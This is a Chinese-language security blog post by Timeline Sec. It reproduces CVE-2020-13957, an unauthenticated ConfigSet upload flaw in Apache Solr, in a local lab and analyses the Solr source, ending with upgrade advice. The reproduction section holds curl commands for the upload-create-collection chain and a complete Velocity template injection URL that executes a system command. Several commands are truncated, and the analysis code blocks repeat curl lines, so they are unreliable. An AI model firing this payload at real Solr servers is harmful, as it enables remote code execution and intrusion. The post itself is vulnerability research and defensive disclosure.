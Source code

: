 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/EbNK\_PQZwgR6K31HwjAVRQ)

  

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****  
hatjwe&ebounce****@Timeline Sec  
**

**本文字数：1778**

**阅读时长：5~6min**

**声明：请勿用作违法用途，否则后果自负**

  

**0x01 简介**  

  

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。
--------------------------------------------------------------------------------------------------------------------------

  

**0x02 漏洞概述**  

  

**漏洞编号CVE-2020-13957**  

-------------------------

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。
---------------------------------------------------

  

整个利用链流程：

上传configset——基于configset再次上传configset（跳过身份检测）——利用新configset创造collection——利用solrVelocity模板进行RCE

  

**0x03 影响版本**  

  

  

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

  

**0x04 环境搭建**  

为  

1、solr-7.0.1

http://archive.apache.org/dist/lucene/solr/7.0.1/  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

在下载好的solr下bin目录打开cmd执行  

```
solr.cmd start -c
```

  

启动SolrCloud，访问http://127.0.0.1:8983  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**0x05 漏洞复现**  

  

1、将  

\\server\\solr\\configsets\\\_default\\conf目录下的solrconfig.xml文件中params.resource.loader.enabled的值设置为true(为远程命令执行做准备)，conf目录下所有文件打包成一个压缩文件  

  

2、通过上传API将zip上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @7.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

3、根据UPLOAD的配置，创建一个新的配置，绕过不能通过直接UPLOAD创建collection的限制  

```
curl "http:/127.0.0.1:8983/solr/admin/configs?action=CREATE&
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

4、根据CREATE得到的新configset创建恶意collection

```
curl "http:/127.0.0.1:8983/solr/admin/collections?action=CREATE&numShards=1&
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

5、我们可以利用已上传的collection进行远程命令执行

```
http://127.0.0.1:8983/solr/file2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

PS：如果不成功可以检查下params.resource.loader.enabled的值设置为true，这是利用solrVelocity模板进行rce的先决条件

  

可以通过solr could界面查看上传collection的configset设置信息  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**0x06 漏洞分析**  

  

当传入zip配置文件时，会调用getTrusted函数进行判断是否允许创建该配置对应的node:

  

org.apache.solr.handler.admin.ConfigSetsHandler  

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @eviltest1.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

虽然该配置文件集会被标记成未授信，但仍然会被写入到服务器中

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

所以我们第一步上传的配置集会被写入到服务器中，然后我们使用该配置集创建配置,由于下一步我们传入的URL中含有CREATE,baseConfigSet等，因此挨个全局搜索找到判定点：

  

org.apache.solr.handler.admin.ConfigSetsHandler  

```
curl "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

结合URL和参数可以看出该操作是以我们刚刚传入的eviltest1为模板，创建新的模板其名字为evil1，跟进copyPropertiesWithPrefix此处会通过configSetProp.前缀，筛选对应的CREATE配置：

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

我们传入的immutable默认为false，因此从配置的角度来说URL可以稍微简化一点：  

```
curl "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

这里同样可以上传成功，值得注意的是我们之前在getTrusted打下的断点没有触发，意味着CREATE这一步在通过母版创建子版的时候是不会触发校验的：

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

随后我们跟进下一步：  

```
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&
```

  

同样的道理这里出现关键词replicationFactor一个似乎是一个工厂函数推测，配置就是在这一步创建的，全局搜索replicationFactor，最后最后找了很久发现触发点（利用重复性报错）org.apache.solr.cloud.api.collections.CreateCollectionCmd#call

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

这个函数非常长，具体作用就是创建collection并判断选用的是哪个configsets，最后刷新collection列表：

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image")

  

通过这一系列的操作最后就能够生成新的collection，即配置被加载，从而能被攻击者利用了。

  

**0x07 修复建议**  

  

1.升级到最新版本  

http://archive.apache.org/dist/lucene/solr/  

  

**0x08 总结**  

  

这个漏洞是由于连续UPLOAD上传configset后configset API只会检测第一次而产生未授权漏洞，看了很多文章都是直接上传一个configset之后collection感觉上有些问题，于是便在开篇写了我认为的利用链，如果有疑问欢迎师傅一起沟通。

  

```
**参考链接：**
```

https://blog.csdn.net/weixin\_45728976/article/details/109102413

https://blog.csdn.net/caiqiiqi/article/details/109046187

  

Timeline Sec 发起了一个读者讨论 1、复现本文时的相关问题  2、下篇你期待的复现文章

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行